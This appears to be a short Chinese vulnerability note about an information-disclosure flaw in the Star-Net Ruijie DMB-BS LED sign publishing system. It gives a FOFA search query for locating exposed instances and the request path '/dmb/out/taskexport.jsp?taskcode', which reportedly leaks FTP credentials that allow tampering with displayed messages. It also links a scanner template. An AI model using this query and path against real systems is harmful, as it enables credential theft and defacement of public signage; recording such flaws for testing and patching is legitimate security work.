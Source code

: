 # 星网锐捷 DMB-BS LED屏信息发布系统taskexport接口处存在敏感信息泄露

**一、漏洞简介**  
<font style="color:rgb(34, 34, 34);">星网锐捷 DMB-BS LED屏信息发布系统taskexport接口处存在敏感信息泄露，攻击者可以可以通过此漏洞读取 FTP 服务器地址、端口及账号密码，通过 FTP 可篡改 LED 发布信息</font>  
**二、影响版本**

星网锐捷信息发布系统

**三、资产测绘**

```plain
app="STAR_NET-数字标牌系统"
```

![1714230441699-d5a76730-3ee2-45ac-ac2c-f0fc80a888f2.png](./img/L5KeVGbPn4qhJj98/1714230441699-d5a76730-3ee2-45ac-ac2c-f0fc80a888f2-017172.png)

●登录![1713938803895-b19dd8b0-de6f-4aa9-9c79-2871255ec1ee.png](./img/L5KeVGbPn4qhJj98/1713938803895-b19dd8b0-de6f-4aa9-9c79-2871255ec1ee-123299.png)

**四、漏洞复现**

```plain
/dmb/out/taskexport.jsp?taskcode
```

![1713938753911-0910a298-b3a4-49a1-842c-5baf166b0abd.png](./img/L5KeVGbPn4qhJj98/1713938753911-0910a298-b3a4-49a1-842c-5baf166b0abd-242564.png)

[XWRJ-DMB-BS-InformationLeakage.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1719200545313-daca3f8d-524a-48d9-83ba-d930e0d9385b.yaml)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ef3dwszacv0ypayp>